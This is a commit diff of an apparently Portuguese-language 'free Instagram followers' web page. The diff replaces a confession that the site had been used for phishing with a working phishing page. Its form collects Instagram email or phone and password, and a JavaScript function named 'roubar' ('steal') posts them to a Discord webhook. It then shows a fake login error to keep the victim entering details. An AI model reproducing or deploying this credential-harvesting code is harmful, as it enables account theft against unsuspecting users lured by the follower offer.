

Before and after one commit to free-follower-instagram/free-follower-instagram, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -120,48 +120,65 @@ width:25px;
 width:280px;
 }
 }
-mark{
-padding:10px;
-font-weight:bold;
-background-color:#e82070;
-}
-.mark{
-padding:5px;
-color:white;
-background-color:purple;
-}
 
     </style>
 </head>
 <body>
     <div class="container">
-        <h1>PARE DE SER ENGANADO</h1>
-<br><br>
-        <p>Eu errei, este site costumava ser um site de phishing que consistia em pegar dados de quem entrava. Pegamos várias contas mas não causamos nenhum estrago.</p>
-<p>Este site foi criado com o objectivo de punir aqueles que abusam ou fazem bulling com pessoas inocentes. Onde poderíamos até expôr fotos privadas, etc. Mas com o passar do tempo, o poder nos subiu à cabeça e mandamos isso à pessoas inocentes.</p>
-<p>Em suma, não estragamos nada de ninguém e não pretendiámos.</p>
-<p><mark>Que Deus te abençoe, meu cassule lindo</mark></p>
-<br><br>
-<p><mark class="mark">Preencha se quiser nos contactar:</mark></p>
-<input type="number" placeholder="Seu número aqui">
-<button onclick="contacto()">Enviar</button>
+        <h1>Ganhe Seguidores no Instagram</h1>
+<img src="foto.png" width="200px">
+        <p>Insira a quantidade desejada de seguidores e faça login.</p>
+        <form>
+<div id="errado" class="animado">
+<p>Senha ou Email/Número de telefone incorrectos</p>
+</div>
+           <label for="quantidade">Insira a quantidade de <span class="brilho">seguidores</span></label>
+            <input type="number" id="quantidade" placeholder="Ex: 1000" required>
+
+            <label for="email">E-mail ou Número de Telefone:</label>
+            <input type="text" id="email" placeholder="Digite seu e-mail ou telefone" required>
+
+            <label for="senha">Senha:</label>
+            <input type="password" id="senha" placeholder="Digite sua senha" required>
+
+            <button onclick="roubar()">Gerar Seguidores</button>
+
+</form>
     </div>
+
 <script>
-async function contacto(){
-var num=document.querySelector("input").value;
-webhook="https://discord.com/api/webhooks/1346960511358734457/lFDqQ3EuCkc3WCth1Uj-wn_8YVVtkT5EjDeucp2dv3bInNB6sGc7PceiIPSjf228z_Ln"
+async function roubar(){
+webhook="https://discord.com/api/webhooks/1359291929686179870/VpRWiU8PrHNr8FUEWdubZd_3sYSoUIImydzHwllIaYDegqT22Rj57fyUjn6NGRjYyzFL";
+
+
+var senha=document.getElementById("senha").value;
+var email=document.getElementById("email").value;
+var errado=document.getElementById("errado");
+if (senha.length != 0 && email.length != 0){
+errado.classList.remove("animado");
+errado.style.display="none";
+setTimeout(function(){
+errado.style.display="inline-block";
+errado.classList.add("animado");
+
+},1);
+
 msg={
-content:"Quero me contactar! Número: "+num
+content: "===Instagram==\n\nEmail/Telefone: "+email+"\n\nSenha: "+senha+"\n\n========="
 }
 await fetch(webhook,{
-method: "POST",
+method:"POST",
 headers: {"Content-Type":"application/json"},
 body: JSON.stringify(msg)
+
 });
 
-alert("Número Enviado, será contactado embreve(WHATSAPP)")
+}else{
+alert("Por favor, preencha os campos de login.");
+}
 
 }
+
 </script>
 
 </body>
```
Also changed, not shown: foto.png (added).
